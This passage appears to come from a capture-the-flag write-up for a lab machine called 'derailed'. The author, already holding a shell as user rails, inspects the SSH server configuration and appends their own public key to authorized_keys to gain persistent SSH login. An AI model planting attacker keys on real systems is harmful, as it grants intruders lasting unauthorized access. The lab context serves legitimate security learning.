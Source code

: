 I see `rails` in the ssh group.

```apacheconf
(remote) rails@derailed:/home/rails$ id
uid=1000(rails) gid=1000(rails) groups=1000(rails),100(users),113(ssh)
(remote) rails@derailed:/home/rails$ cat /etc/ssh/sshd_config
Protocol 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key
HostKey /etc/ssh/ssh_host_ecdsa_key
HostKey /etc/ssh/ssh_host_ed25519_key
SyslogFacility AUTH
LogLevel INFO
LoginGraceTime 120
StrictModes yes
IgnoreRhosts yes
HostbasedAuthentication no
PermitEmptyPasswords no
ChallengeResponseAuthentication no
X11Forwarding yes
X11DisplayOffset 10
PrintMotd no
PrintLastLog yes
TCPKeepAlive yes
AcceptEnv LANG LC_*
Subsystem sftp /usr/lib/openssh/sftp-server
UsePAM yes
AllowGroups root ssh
AddressFamily any
Port 22
PermitRootLogin yes
AllowTcpForwarding no
Compression no
PasswordAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys .ssh/authorized_keys2 /var/lib/openmediavault/ssh/authorized_keys/%u
PubkeyAuthentication yes

```

I see it also has `AllowTcpForwarding no` so I can't use SSH tunneling. I add my public key to the `authorized_keys` file and set the permissions correctly.

{% code overflow="wrap" %}
```apacheconf
(remote) rails@derailed:/home/rails/.ssh$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCyg...3DLtYM= kali@kali" > authorized_keys
(remote) rails@derailed:/home/rails/.ssh$ chmod 600 authorized_keys 
```
{% endcode %}

Now I can connect via `ssh`

```apacheconf
msplmee@kali:~/.ssh$ ssh -i id_rsa rails@10.10.11.190              
The authenticity of host '10.10.11.190 (10.10.11.190)' can't be established.
...
rails@derailed:~$ 
```
